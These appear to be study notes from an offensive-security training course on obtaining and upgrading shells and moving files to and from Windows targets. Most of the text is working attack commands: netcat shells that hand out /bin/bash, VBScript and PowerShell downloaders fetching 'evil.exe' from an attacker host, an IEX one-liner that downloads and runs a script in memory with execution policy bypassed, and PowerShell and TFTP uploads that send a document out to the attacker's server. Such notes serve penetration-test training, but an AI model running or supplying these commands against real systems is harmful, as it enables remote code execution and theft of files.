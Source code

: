 ## non-interactive shell  
on client, we open a listening shell: nc -nvlp 4444 -e /bin/bash  
in attack machine, connect to it nc -nv xxx.xx.xx.xxx 4444  
if we run ftp, we lose the interaction, input not binded correctly  

# upgrading the non-interactive shell  
nc -nvlp 4444 -e /bin/bash  
nc -nv 192.168.148.44 4444  

python -c 'import pty; pty.spawn("/bin/bash")'  
get a bash prompt, get the pty shell, good  

# Transfer file with windows hosts 
Non-interative ftp download  
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/  

home directory of ftp is set to /ftphome/  

```
C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt  # request a binary file transfer
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```
-v to suppress any returned output, -n to suppresses automatic
login, and -s to indicate the name of our command file.  


# Windows Downloads using scripting languages

Use vb script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe  

Use powershell :

```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

```
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -
NoProfile -File wget.ps1
```

First, we must allow execution of PowerShell scripts (which is restricted by default) with the -
ExecutionPolicy keyword and Bypass value. Next, we will use -NoLogo and -NonInteractive
to hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively.
The -NoProfile keyword will prevent PowerShell from loading the default profile (which is not
needed), and finally we specify the script file with -File: 

one line version 
```
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```
download and execute without save to disk  


# Download with exe2hex and powershell
`upx -9 nc.exe` compress the binary file  
`exe2hex -x nc.exe -p nc.cmd  `  

pipling the file into clipboard:
```
cat nc.cmd | xclip -selection clipboard
```

oaste it into the non-interactive shell  


# windows upload using windows scripting language  
host a upload http server  

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

sudo mkdir /var/www/uploads   
sudo chown www-data: /var/www/uploads   

```
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

# Uploading Files with TFTP
xp, 2003  

sudo chown nobody: /tftp  
sudo atftpd --daemon --port 69 /tftp    

in windows:  
tftp -i 10.11.0.4 put important.docx  




